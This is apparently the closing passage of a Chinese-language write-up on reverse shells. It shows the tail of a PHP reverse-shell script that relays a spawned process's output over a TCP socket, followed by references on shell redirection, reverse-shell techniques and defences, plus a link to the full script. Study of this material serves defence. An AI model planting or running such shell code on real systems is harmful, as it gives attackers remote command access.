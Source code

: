 ```php
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```
---

# 参考连接

[Bash : IO 重定向](https://www.cnblogs.com/sparkdev/p/10247187.html)  
[Linux下几种反弹Shell方法的总结与理解](https://www.freebuf.com/articles/system/178150.html)
[自动化反弹Shell防御技术](https://www.freebuf.com/articles/system/187584.html)
[What does “3>&1 1>&2 2>&3” do in a script?](https://unix.stackexchange.com/questions/42728/what-does-31-12-23-do-in-a-script)
[php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
[自动化反弹Shell防御技术](https://cloud.tencent.com/developer/news/337625)

---